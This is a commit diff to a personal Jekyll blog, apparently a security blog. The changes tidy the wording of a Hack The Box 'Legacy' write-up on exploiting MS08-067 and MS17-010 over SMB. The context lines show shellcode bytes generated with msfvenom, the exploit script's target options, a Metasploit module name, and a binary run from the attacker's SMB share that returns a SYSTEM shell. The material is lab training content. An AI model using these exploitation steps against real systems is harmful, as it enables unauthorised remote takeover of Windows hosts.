

Before and after one commit to ColdFusionX/ColdFusionX.github.io, a Jekyll site: the page built from _posts/2020-09-01-LegacyHTB.md, in a window 1280 px wide and 1400 px high, scrolled down 2787 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Legacy writeup updated

````diff
--- a/_posts/2020-09-01-LegacyHTB.md
+++ b/_posts/2020-09-01-LegacyHTB.md
@@ -108,17 +108,17 @@ Host script results:
 Nmap done: 1 IP address (1 host up) scanned in 9.47 seconds
 ```
 
-We discovered the host is vulnerable to notorious MS08-67 (exploited widely by Conficker worm) and MS17-010 (by Shadow Brokers) SMB exploits.
+We discovered the host is vulnerable to notorious `MS08`-67 (exploited widely by Conficker worm)` and `MS17-010 (by Shadow Brokers)` SMB exploits.
 
-We'll exploit both the vulnerabilities **MS08-67** & **MS17-010** manually sticking to OSCP pattern to pwn the box using publicly exploit scripts.
+We'll exploit both vulnerabilities **MS08-67** & **MS17-010** manually sticking to OSCP pattern using publicly available exploit scripts.
 
 ## MS08-67
 
-There are multiple MS08-67 exploits available on the internet but the one which worked the best for me is the one from Jivoi available [**here**](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)
+There are multiple MS08-67 exploits available on the internet but the one which worked the best for me is from **Jivoi** available [**here**](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)
 
-To make this python script work we just have to replace the default given shellcode with our own. Shellcode generation command via msfvenom for different payload style is already given in comments by the author inside the script.
+To make this python script work we just have to replace the default given `shellcode` with our own. Shellcode generation command via `msfvenom` for different payload style is already given in comments by the author inside the script.
 
-### Generating Shellcode:
+### Generating Shellcode
 
 ```shell
 cfx:  ~/Documents/htb
@@ -160,21 +160,21 @@ unsigned char buf[] =
 "\x92\xb3\x5a";
 ```
 
-We can replace the default shellcode given in the script with the above one generated for my Ip and port.
+We can replace the default shellcode given in the script with above one generated for my IP and port.
 
-Looking at the usage of this exploit on line 228 we can see the exploit requires us to know the OS version and Language pack of the host:
+Looking at the usage of this exploit on line 228 we can see the exploit requires us to know the OS version and Language pack:
 
 ```console
-                print '\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0]
-                print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
-                print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
-                print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
-                print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
-                print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
-                print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
-                print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
+          print '\nUsage: %s <target ip> <os #> <Port #>\n' % sys.argv[0]
+          print 'Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445'
+          print 'Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)'
+          print 'Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal'
+          print 'Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English'
+          print 'Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)'
+          print 'Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)'
+          print 'Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)'
 ```
-Based on our Nmap results we know the host is running Windows XP amd taking a wild guess we can go with option 6 fpr `Windows XP SP3 English (NX)`
+Based on our Nmap results we know the host is running Windows XP and taking a wild guess we can try the exploit with option 6 for `Windows XP SP3 English (NX)`
 
 ### Exploitation
 
@@ -263,7 +263,7 @@ Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
 [*] :::00::4141414141414141
 ```
 
-Running the binary on target machine:
+#### Executing `Whomai.exe` binary on target machine:
 
 ```shell
 C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
@@ -271,7 +271,7 @@ C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
 NT AUTHORITY\SYSTEM
 ```
 
-Hereby we confirm the MS08-67 exploit gave us the shell as `NT AUTHORITY\SYSTEM`
+Hereby we confirm `MS08-67 exploit` gave us the shell as `NT AUTHORITY\SYSTEM`
 
 
 ## MS17-010
@@ -355,9 +355,9 @@ NT AUTHORITY\SYSTEM
 
 ## Metasploit
 
-We will execute Metasploit using `msfconsole` and use `exploit/windows/smb/ms08_067_netapi`, set the payload and other parameters and fire up the exploit.
+Lets run Metasploit using `msfconsole` and use `exploit/windows/smb/ms08_067_netapi`, set the payload and other parameters and fire up the exploit.
 
-Similar to above two methods, we can confirm we got the shell as system with our SMB hosted `whoami.exe` binary.
+Similar to above two methods, we can verify if we running as system using our `whoami.exe` binary.
 
 ```shell
 cfx:  ~/Documents/htb/legacy/MS17-010
````
Also changed, not shown: other parts of _posts/2020-09-01-LegacyHTB.md (+7 -7 lines).
